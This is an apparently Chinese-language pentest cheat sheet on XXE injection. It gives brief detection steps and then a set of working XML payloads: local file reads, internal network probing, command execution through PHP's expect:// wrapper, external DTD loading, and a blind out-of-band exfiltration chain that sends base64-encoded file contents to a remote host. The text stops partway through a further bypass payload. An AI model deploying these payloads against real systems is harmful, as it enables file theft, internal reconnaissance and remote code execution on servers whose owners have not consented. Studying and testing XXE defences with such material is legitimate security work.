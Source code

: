 人工：

1.数据格式类型判断：``<user>test</user><pass>alal</pass>``。

2.Content-Type值判断：``text/xml``、``application/xml``。

3.更改Content-Type值看返回值。

工具：



#### 玩法

```
#读文件
<?xml version="1.0"?>
<!DOCTYPE ANY[
	<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>

#内网探针或攻击内网应用(触发漏洞地址)
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ELEMENT foo ANY>
	<!ENTITY rabbit SYSTEM "http://192.168.0.1:8081/index.txt">
]>
<x>&rabbit;</x>

#RCE
该CASE是在安装expect扩展的PHP环境执行系统命令
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY xxe SYSTEM "expect://id">
]>
<x>&xxe;</x>

#引入外部实体dtd
<?xml version="1.0"?>
<!DOCTYPE test [
	<!ENTITY % file SYSTEM "http://127.0.0.1:8081/evi12.dtd">
	%file;
]>
<x>&send;</x>

evi12.dtd:  <!ENTITY send SYSTEM "file:///d:/test.txt">

#无回显-读文件
<?xml version="1.0"?>
<!DOCTYPE test [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/1.txt">
	<!ENTITY % dtd SYSTEM "http://192.168.0.1:8081/test.dtd">
	%dtd;
	%send;
]>

test.dtd:
<!ENTITY % payload 
	"<!ENTITY &#x25; send SYSTEM 'http://192.168.0.1:8081/?data=%file;'>"
>

%payload;

#协议-读文件(绕过)
<?xml version="1.0"?>
<!DOCTYPE ANY [
```